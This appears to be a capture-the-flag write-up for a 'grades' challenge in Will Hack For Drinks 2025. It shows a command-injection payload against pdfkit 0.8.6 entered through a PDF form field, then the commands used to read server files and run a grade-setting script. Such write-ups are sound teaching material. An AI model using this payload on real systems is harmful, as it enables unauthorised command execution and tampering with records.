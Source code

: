 ```yaml
---
title: 'WHFD 2025 - grades'
shortTitle: 'grades'
date: 2025-04-11
length: 5 min
author: Colorman
headline: Read a solution to grades in Will Hack For Drinks 2025
---
```


> **3 - Grades**
>
> _Suggested difficulty: normal_
>
> The semester has come to a brutal end, and the results are in. You log in to
> the Intrusion Technics University (ITU) study management platform, My Study
> Activities to check your exam results. ITU is known for its unforgivingly high
> exam standards, and it seems your modest performance didn't make the cut.
>
> The means disappointed looks from friends and family, your future plans
> practically in shambles, and worst of all: the dreaded re-exam. But you're not
> ready to give up just yet! Setbacks are just opportunities in disguise, right?
> Somewhere in the depths of the university’s labyrinthine digital
> infrastructure, there has to be a way forward. You just need to find it.
>
> <https://grades.chall.itunderground.dk/static/index.html>

---

On the challenge we are greeted by a university grade platform. Going into
"examination results" we see a message indicating that we need to get a much
higher grade point average.

![examination result](/media/writeups/whfd25/grades/examination_results.png)

From the message we can assume that we are somehow meant to increase our GPA to
acceptable levels.

Exploring the site further, we find a page where you can print a PDF of your
examination results:

![printsite](/media/writeups/whfd25/grades/print1.png)

Most of the options in the dropdown don't work, but the one titled "BestÃ¥ede
resultater for igangvÃ¦rende uddannelser" does.

In addition to this, there's a text field for user input.

Clicking the CREATE PDF button generates a PDF file in the browser, with the
user input in the PDF. Interestingly, in the bottom of the PDF we see the text
"Created with love by pdfkit 0.8.6".

Googling "pdfkit 0.8.6 vulnerabilities" shows that this specific version of
pdfkit is vulnerable to command injection. In particular is a
[Snyk article](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) that
shows that using the string

```
%20`sleep 5`
```

causes the `sleep 5` command to get injected and ran by the program. And sure
enough, entering the above into the text field and clicking the button causes it
site to hang for 5 seconds!

We can push this further: the output of the command is visible in the PDF, so
using a command like `ls` we can see 2 files in the current directory:
`grades.csv` and `set_grade.sh`. Very suspicious. We can see using
`cat grades.csv` that it's a `csv` file that contains two columns, subject IDs
and grades:

```csv
subject,grade
BSHAXXX1KE,10
BSCTFWN1KE,7
BS4N5EC1KE,10
BSDBSQL1KE,10
BSR3V3R1KE,10
BSM4LW4R1KE,10
BS42PWN1KE,12
```

The `set_grade.sh` script seems useful. `cat`ing it we see that it takes a
subject ID and a grade, and seemingly modifies the CSV file somehow?

```sh
#!/bin/sh
# Function to print help information
usage() {
	echo "Sets the grade for a course"
	echo "ONLY FOR USE BY PROFESSORS"
	echo "Usage: $0 <ID> <NUMBER>"
	echo " <ID>: A course identifier"
	echo " <GRADE>: A grade"
	exit 1
}
# Check if exactly two arguments are provided
if [ "$#" -ne 2 ]; then
	usage
fi
ID="$1"
GRADE="$2"
grades_file="grades.csv"
found=0
awk -F, -v lookup="$ID" -v newval="$GRADE" -v found_ref="$found" 'BEGIN {OFS=","}
 $1 == lookup { $2 = newval; found_ref=1 }
 { print }
		END { if (found_ref == 0) exit 1 }' "$grades_file" >temp.csv
if [ $? -eq 1 ]; then
	echo "Error: Course '$ID' not found in '$grades_file'." >&2
	rm temp.csv
	exit 1
fi

echo "Grade for course '$ID' set to '$GRADE'."
mv temp.csv "$grades_file"
```

Let's try setting the grade of the first subject to 12, the highest grade in the
Danish education system:

```
> ./set_grade.sh BSHAXXX1KE 12
```

Once we've done this, we can already see the result in the PDF file! The subject
grade has been updated to 12!

![grade got upgraded](/media/writeups/whfd25/grades/resultup.png)

Let's do this to all the grades. After doing it, we go back to the results page
and we got the flag!

![flag](/media/writeups/whfd25/grades/flag.png)

